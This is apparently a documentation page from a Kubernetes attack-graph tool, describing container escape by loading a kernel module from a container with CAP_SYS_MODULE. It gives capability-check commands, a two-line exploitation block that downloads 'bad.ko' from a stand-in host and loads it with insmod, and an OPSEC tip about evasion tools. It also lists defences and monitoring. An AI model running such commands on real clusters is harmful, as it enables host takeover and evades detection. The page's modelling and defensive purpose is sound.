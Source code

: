 # CE_MODULE_LOAD

Load a kernel module from within an overprivileged container to breakout into the node.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

Container isolation mechanisms are restricted to user-space execution. If an attacker gains kernel level execution via loading a kernel module or exploiting a kernel vulnerability, all isolation mechanisms can be bypassed. If a container is run with `--privileged` or if `CAP_SYS_MODULE` is explicitly enabled via the `securityContext` setting, kernel modules can be loaded from within the container, leading to a trivial and powerful container escape.

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_SYS_MODULE.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Download a pre-compiled kernel module suitable for the target OS/architecture (see [examples](https://github.com/milabs/awesome-linux-rootkits)) and load from within the container:

```bash
curl -O exploit.delivery/bad.ko
insmod bad.ko
```

## OPSEC Considerations

Cloud Security Management has a number of rules related to kernel module loading. Overall this is a well-documented and monitored attack. Consider using evasion tools if privilege allows to avoid detection or consider alternative techniques.

## Defences

+ Implement least privilege
+ Avoid running privileged pods.

## Monitoring

+ Monitor for unfamiliar kernel modules loaded or kernel modules loaded from within a running pod which should both be high-fidelity signals of malicious activity.

## Calculation

[EscapeModuleLoad](../../pkg/kubehound/graph/edge/escape_module_load.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Linux Privilege Escalation - Exploiting Capabilities - StefLan's Security Blog](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)